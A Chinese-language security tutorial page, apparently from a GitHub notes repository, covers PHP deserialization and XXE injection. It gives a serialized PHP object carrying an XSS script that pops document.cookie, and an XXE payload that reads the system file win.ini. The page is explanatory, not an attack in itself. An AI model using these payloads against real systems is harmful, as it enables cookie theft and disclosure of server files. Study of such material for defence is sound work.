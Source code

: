 





## PHP反序列化

一般来说反序列化漏洞要拿到源码才能进行构造，一些魔术方法需要慢慢琢磨

```php
<?php
class S{
	var $test="<script>alert(document.cookie)</script>";
}
 
$a=new S();
echo serialize($a)
?>
```

输入payload进行弹窗：

```
O:1:"S":1:{s:4:"test";s:39:"<script>alert(document.cookie)</script>";}
```

![image-20250121075826168](../../_media/image-20250121075826168.png)



## XEE

XXE -"xml external entity injection"既"xml外部实体注入漏洞"。

- 概括一下就是"攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题"也就是说服务端接收和解析了来自用户端的xml数据,而又没有做严格的安全控制,从而导致xml外部实体注入。

- 现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。

- 以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。


payload如下

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
     <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
<a>&xxe;</a>
```
